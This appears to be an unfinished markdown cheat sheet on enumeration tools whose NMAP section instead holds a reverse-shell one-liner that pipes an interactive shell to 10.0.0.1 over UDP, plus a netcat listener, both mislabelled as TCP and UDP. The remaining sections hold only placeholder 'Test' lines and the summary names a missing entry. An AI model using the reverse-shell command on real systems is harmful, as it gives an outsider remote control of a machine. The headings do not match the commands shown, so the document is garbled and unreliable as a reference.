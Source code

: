 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
* [DIRB](#DIRB)
* [DIRBUSTER](#DISRBUSTER)
    * [Bash TCP](#bash-tcp)
 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
Test
Test
Test
Test
Test
Test
Test
Test
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```
